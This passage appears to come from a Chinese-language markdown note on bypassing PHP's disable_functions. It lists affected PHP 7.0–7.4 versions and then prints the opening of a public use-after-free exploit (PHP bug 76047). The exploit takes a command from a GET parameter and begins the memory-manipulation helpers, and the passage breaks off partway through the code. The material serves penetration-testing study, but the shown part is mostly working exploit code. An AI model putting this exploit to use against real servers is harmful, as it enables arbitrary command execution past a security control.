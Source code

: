 ![](ByPaass_disable_Function.assets/ByPass disable_function_7.png)

### PHP特定版本bypass

#### Target

- 7.0 - all versions to date
- 7.1 - all versions to date
- 7.2 - all versions to date
- 7.3 < 7.3.15 (released 20 Feb 2020)
- 7.4 < 7.4.3 (released 20 Feb 2020)

#### EXP

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
```